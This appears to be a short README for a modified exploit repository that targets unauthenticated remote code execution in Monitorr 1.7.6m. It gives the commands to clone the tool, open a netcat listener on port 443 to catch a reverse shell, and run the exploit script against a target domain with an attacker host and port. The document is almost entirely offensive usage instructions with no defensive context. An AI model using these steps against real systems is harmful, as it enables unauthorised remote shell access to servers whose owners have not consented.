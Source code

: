 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Installation
``git clone https://github.com/valentinodev/monitorr_1.7.6m_rce.git``

``cd monitorr_1.7.6m_rce``

### Netcat (another terminal)
``apt install rlwrap``

``rlwrap nc -lvnp 443``

### Exploit
``python 48980.py https://domain.com LHOST PORT``


## CC TO LYHIN'S LAB

